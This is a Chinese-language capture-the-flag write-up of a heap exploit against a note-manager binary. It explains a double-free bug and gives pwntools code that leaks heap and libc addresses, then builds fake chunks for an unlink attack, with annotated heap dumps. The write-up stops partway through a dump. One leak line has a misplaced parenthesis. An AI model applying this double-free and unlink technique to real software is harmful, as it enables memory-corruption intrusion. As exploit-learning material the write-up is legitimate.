 **1. New**
> 通过对程序的观察, 发现程序会`malloc`最小的数值, `0x80`, 然后是`0x180`
. 程序将这些`flag, length, s`存放在堆中.

**2. Delete**
> 没有对相应的指针作验证, 出现`Double Free`

### 漏洞分析
&nbsp;&nbsp;&nbsp;&nbsp;**思路:** 总体思路还是和[SleepyHolder](https://blog.csdn.net/qq_33528164/article/details/80040197)一样, `Double Free`和`Unlink`搭配实现任意地址读写.

&nbsp;&nbsp;&nbsp;&nbsp;**问题:**　如何实现`Double Free`而不致使程序崩掉呢?
> &nbsp;&nbsp;我们知道: `Free`一个结构体, 程序会将`flag和length`置为`0`, `free`对应的指针, 但是没有将其置为`0`, 于是就出现了如下假设:
>> &nbsp;&nbsp;如果释放后的对应位置仍然有内容, 那么我们就能二次释放, 而不使程序崩掉.并且释放的位置上出现`Unlink`, 我们就改写任意内容.

### 过程
**1. leak heap address && libc base address**
```python
new(1, 'a')
new(8, 'a')
new(8, 'a')
new(8, 'a')

delete(0)
delete(2)

new(8, '12345678')
new(8, '12345678')

list()
p.recvuntil("0. 12345678")
heap = u64(p.recvline().strip("\x0a").ljust(8, "\x00") - 0x1940)
p.recvuntil("2. 12345678")
libcbase = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x3c4b78
log.info("heap: %s" % hex(heap))
log.info("libcbase: %s" % hex(libcbase))

delete(1)
delete(3)
```
**结论:** 利用了`unsorted bin`中是双链表连接.

**2. Double Free**
```python
payload01 = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) +p64(0x20)
new(len(payload01), payload01)
#------------------------------------------------------
------ #0x962830:	0x0000000000000000	0x0000000000000051  <---------         
|      #0x962840:	0x0000000000961018(fd)	0x0000000000961020(bk)   |
|      #0x962850:	0x4141414141414141	0x4141414141414141           |
|      #0x962860:	0x4141414141414141	0x4141414141414141           |
|      #0x962870:	0x4141414141414141	0x4141414141414141           |
--->   #0x962880:	0x0000000000000050(绕过)	0x0000000000000020 ------|
#-----------------------------------------------------       |
                                                             |
payload02  = "A"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80    |
payload02 += p64(0) + p64(0x71) + "A"*0x60                   |
new(len(payload02), payload02)                               |
delete(2)                                                    |
#-----------------------------------------------------       |
#0x962920:	0x4141414141414141	0x4141414141414141           |
#0x962930:	0x4141414141414141	0x4141414141414141           |
#0x962940:	0x0000000000000110(prevsize)	0x0000000000000090 |
#0x962950:	0x4141414141414141	0x4141414141414141
```